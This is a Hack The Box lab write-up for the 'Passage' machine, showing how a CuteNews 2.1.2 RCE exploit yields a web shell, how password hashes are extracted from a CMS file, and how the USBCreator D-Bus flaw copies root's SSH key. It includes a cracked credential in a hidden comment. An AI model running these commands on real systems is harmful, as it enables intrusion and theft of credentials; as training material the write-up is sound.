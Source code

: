 ```yaml
---
title: Hackthebox - Passage
date: 2020-10-10 00:00:00 +0530
categories: [hackthebox, linux]
tags: [cutenews 2.1.2, cve-2019-11447, usbcreator d-bus interface]     # TAG names should always be lowercase
image: /assets/img/posts/passage/passage_banner.png
---
```



![](/assets/img/posts/passage/passage_banner.png)



<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"><img loading="lazy" alt="x00tex" src="https://www.hackthebox.eu/badge/image/391067"></a>
</p>

# Scanning

## Nmap

`ports=$(nmap -Pn -p- --min-rate=1000 -T4 10.10.10.206 | grep open | awk -F / '{print $1}' ORS=',') echo $ports && nmap -p$ports -sV -sC -v -T4 -oA scans/nmap.full 10.10.10.206`
```diff
PORT   STATE SERVICE VERSION
 22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
+80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Passage News
```

## web server

* http server is running cutenews cms
  * **[cutenews](https://cutephp.com/):** CuteNews is a FREE, powerful and easy-to-use news management system based on flat files as a storage with quick installation, search function, file upload management, backup & restore, IP banning, permission levels supporting, flood protection and many more. Moreover Cutenews is UTF-8 fully compatible system.

* in the web page there is a rss feed link which goes here `http://passage.htb/CuteNews/rss.php` this is inside cms directory and thats how we get cms directory.
  * going to cms directory we get login page and also cms version -

    ![](/assets/img/posts/passage/cutenews.png)

  * **Version:** 2.1.2
  * **Exploit:** [CVE-2019-11447](https://nvd.nist.gov/vuln/detail/CVE-2019-11447) **RCE** [ExploitDB](https://www.exploit-db.com/exploits/48800)

  * **msf module:** `exploit/unix/webapp/cuteNews_rce`

# web shell

* using exploitDB python script we get the web user shell on the box -

  ![](/assets/img/posts/passage/cutenews-exploit.png)

* inside `/var/www/html/CuteNews/cdata/users/` found a file named "lines" contains some password hashes -

      for i in $(cat /var/www/html/CuteNews/cdata/users/lines | grep -v php); do echo $i | base64 -d | grep -E '[0-9a-z]{64}' | grep -oE '[a-z0-9]+@[a-z]+.[a-z]{3}|[0-9a-z]{64}' && echo; done

  ![](/assets/img/posts/passage/grep-hashes.png)

  * crack the hash -

        for i in $(cat /var/www/html/CuteNews/cdata/users/lines | grep -v php); do echo $i | base64 -d | grep -E '[0-9a-z]{64}' | grep -oE '[a-z0-9]+@[a-z]+.[a-z]{3}|[0-9a-z]{64}' | tr '\n' ':' | sed 's/.$//' && echo ; done | sed '/^ *$/d'

    ![](/assets/img/posts/passage/crack-the-hash.png)
	<!--paul:atlanta1-->

# user shell

## user:paul

* crack the paul password hash and the same user have shell in the box so we can try to su to user paul

  ![](/assets/img/posts/passage/su-you-paul.png)
	
* it looks like user paul's .ssh directory coatins user nadav ssh key -

  ![](/assets/img/posts/passage/nadav-in-ssh.png)

## user:nadav

* use that private ssh key to get nadav shell -

  ![](/assets/img/posts/passage/nadav-is-here.png)

* something in the viminfo file - 

  ![](/assets/img/posts/passage/viminfo.png)

  * two config file edited owned by root -

    ![](/assets/img/posts/passage/owned-by-root.png)

* searching about these files find something interesting about USBCreator [here](https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-in-ubuntu-desktop/)

  * flaw in the USBCreator D-Bus interface which:

    Allows an attacker with access to a user in the sudoers group to bypass the password security policy imposed by the sudo program. The vulnerability allows an attacker to overwrite arbitrary files with arbitrary content, as root – without supplying a password. This trivially leads to elevated privileges, for instance, by overwriting the shadow file and setting a password for root.

	* D-Bus is a messaging system that is a core system on many Linux systems, allowing for communications between processes running on the same system. This vulnerability is in how this process, interface mistakenly allows for an attacker to trigger it to do something unintended, arbitrary write as root.

  * i don't understand it completely but found the exploit in the end of the article to just get the root

# Privesc

  * using USBCreator D-Bus interface exploit to read root ssh key -

		gdbus call -y -d com.ubuntu.USBCreator -o /com/ubuntu/USBCreator -m com.ubuntu.USBCreator.Image /root/.ssh/id_rsa /tmp/root_rsa true

    ![](/assets/img/posts/passage/root-key-on-bus.png)

